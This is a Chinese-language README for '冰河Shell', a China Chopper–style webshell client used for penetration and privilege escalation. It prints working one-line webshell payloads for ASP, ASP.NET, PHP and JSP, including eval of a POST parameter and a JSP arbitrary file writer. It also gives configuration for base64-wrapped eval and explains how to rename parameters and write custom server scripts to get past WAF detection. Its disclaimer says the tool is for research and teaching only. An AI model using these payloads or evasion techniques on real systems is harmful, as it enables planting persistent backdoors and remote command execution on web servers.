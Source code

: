 # 作者简介: 
冰河，高级软件架构师，Java编程专家，高级安全工程师，Spring、MySQL内核专家，开源分布式消息引擎Mysum发起者、首席架构师及开发者，Android开源消息组件Android-MQ独立作者，国内知名开源分布式数据库中间件Mycat核心架构师、开发者，精通Java, C, C++, Python, Hadoop大数据生态体系，熟悉MySQL、Redis内核，Android底层架构。多年来致力于分布式系统架构、微服务、分布式数据库、大数据技术的研究，曾主导过众多分布式系统、微服务及大数据项目的架构设计、研发和实施落地。在高并发、高可用、高可扩展性、高可维护性和大数据等领域拥有丰富的经验。对Hadoop、Spark、Storm等大数据框架源码进行过深度分析并具有丰富的实战经验。

# 作者联系方式
QQ：2711098650

# 项目简介
冰河Shell 向中国菜刀致敬

# 免责声明：  
本工具仅限于安全研究与教学使用，用户使用本工具所造成的所有后果，由用户承担全部法律及连带责任！作者不承担任何法律及连带责任。
  
### 为什么开发冰河Shell：  
1、网上的渗透工具存在各种后门，不想自己的成果被他人的后门窃取；  
2、给大家带来的一款纯粹的、无后门的绿色渗透提权利器  

# 版权所有：  
冰河(QQ:2711098650), 翻版必究

# 一、运行环境  
安装了JRE1.7+环境的所有操作系统

# 二、工具说明：  
1.一句话木马提权利器；  
2.比传统的一句话提权工具新增了切换皮肤的能力;  
3.比传统的一句话提权工具新增了自定义脚本类型的能力；  
4.比传统的一句话提权工具新增了设置代理和请求头的能力；  
5.比传统的一句话提权工具新增了多种数据库存储的能力(支持MYSQL、ORACLE、MSSQL、ACCESS的)；  
6.比传统的一句话提权工具新增了支持https协议的能力；  
7.虚拟终端右键复制粘贴功能（快捷键Ctrl+C、Ctrl+V）  
8.虚拟终端上键下键切换历史命令功能  
9.数据库管理右键导出数据功能  
 

# 三、使用说明：
服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。  
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create_function、assert等）  
### ASP:        
```
<%eval request("Shell")%>
```
### ASP.NET:    
```
<%@ Page Language="Jscript"%><%eval(Request.Item["Shell"],"unsafe");%>
```
### PHP:        
```
<?php @eval($_POST['Shell']);?>
```
### JSP:	   
```
<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%>
```  
提交客户端  
```
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>
```
### Customize:  
自定义类型,功能代码在服务端保存,理论上支持所有动态脚本,只要正确与C刀进行交互即可。此模式可按需定制，比如只要浏览目录，或是只要虚拟终端功能，代码可以很简短。  

# 四、数据库功能：

首次使用在列表里点击右键，选择数据库管理会提示请先配置数据库，点击配置数据库按钮选择对应的连接方式连接即可。  

# 五、设置功能：

代理功能：在类型处选择代理类型。支持SOCKS、HTTP类型的代理，使用Burp抓取Shell数据，需选择代理类型为HTTP，并填上对应的IP以及端口即可。  
如果想要关闭代理功能，只需要选择代理类型为DIRECT，或者清空用户名或密码，即表示关闭代理。  
  
自定义请求头功能：在文本框里输入要自定义的请求头以及对应的值，可以添加或修改多个请求头。只需要按照如下格式添加即可：  
```
User-Agent:xxx
Cookie:xxx
ms509:Chora
```
如果想要关闭自定义请求头功能，只需要把文本框内容清空，或者选中关闭选项并确定。  

# 六、过WAF

这是一款跨平台的基于配置文件的中国菜刀，把所有操作给予用户来定义，主程序只是图形的展示，以及数据的发送。  
我分开了每一个步骤写入到配置文件里面，用户可以自定义任何代码，包括更改参数名称，参数内容。   
比如：   
```
SKIN=javax.swing.plaf.nimbus.NimbusLookAndFeel 设置皮肤为nimbus 
SPL=->|               			       表示截取数据的开始符号 
SPR=|<-               			       表示截取数据的结束符号 
CODE=code         			       编码参数 
ACTION=action    			       动作参数 
PARAM1=z1         			       参数1 
PARAM2=z2         			       参数2 
PHP_BASE64=1   				       当为PHP时，Z1，Z2参数是否开启自动base64加密，如果想定义自己的加密方式则关闭设置为0 
PHP_MAKE=@eval(base64_decode($_POST[action])); 生成方式，这里可以不用该方式，可以用你任何想要的方式 
PHP_INDEX=...             		       显示主页功能的代码放这儿
PHP_READDICT=...      			       读取主页功能的代码放这儿
PHP_READFILE=...       			       读取文件功能的代码放这儿
PHP_DELETE=...           		       删除文件夹以及文件功能的代码放这儿
PHP_RENAME=...         			       重命名文件夹以及文件功能的代码放这儿
PHP_RETIME=...         			       修改时间功能的代码放这儿
PHP_NEWDICT=...        			       新建目录功能的代码放这儿
PHP_UPLOAD=...          		       上传文件功能的代码放这儿
PHP_DOWNLOAD=...    			       下载文件功能的代码放这儿
PHP_SHELL=...              		       虚拟终端功能的代码放这儿
PHP_DB_MYSQL=...			       管理MYSQL数据库功能的代码放这儿
ASP_...=...
ASPX_...=...
JSP_...=...
```

除了修改以上参数过WAF外，程序还额外提供了一种Customize过WAF的模式。  
Customize模式原本是用于支持一些程序默认不支持的脚本，比如CFM、ASMX、ASHX、PY等等，只要用户自写的脚本能正确与菜刀进行交互即可。  
  
换一个思考方式，如果我们自写一个PHP脚本实现了列文件以及目录的功能，它能够正确的与C刀进行交互，这个时候如果我们选择PHP(Eval)的连接方式就会连接失败。
应该选择Customize模式进行连接。有人说为什么一句话就可以连接，你偏偏还要写这么多代码用Customize模式连接？如果一个很厉害的WAF检测eval,assert等关键词
，你的一句话实在是饶不过，这个时候你可以不用一句话，就在PHP脚本里用正常代码实现列文件以及目录，然后用Customize模式连接就达到了过WAF的目的。
  
Customize(自定义)模式跟其他模式一样，每一个步骤也都写入到配置文件里面，用户同样可以参数名称以及参数内容。
比如你自写了用Customize模式连接的Customize.php服务端。显示主页功能提交的参数应该是：密码=1&action=index以及密码=1&action=readdict。
如果C刀普及以后WAF厂商肯定会把readdict列入黑名单，这个时候你就可以修改readdict的名称为其他名称，同样可以修改action的名称，也可以修改1为其他字符  
```
CUS_MAKE=1 
CUS_INDEX=index 
CUS_READDICT=readdict 
CUS_READFILE=readfile 
CUS_SAVEFILE=savefile 
CUS_DELETE=delete 
CUS_RENAME=rename 
CUS_RETIME=retime 
CUS_NEWDICT=newdict 
CUS_UPLOAD=upload 
CUS_DOWNLOAD=download 
CUS_SHELL=shell
```

# 七、已知问题：
Graphite与Metal类型的皮肤互相之间切换不需要重启Shell，其余类型(Nimbus、Windows、Mac等)的皮肤相互之间切换也不需要重启Shell，
但是这两种类型的皮肤进行切换就需要重启Shell才能完全生效，不然最小化、最大化、关闭按钮不会显示，这是Swing架构遗留的问题。 

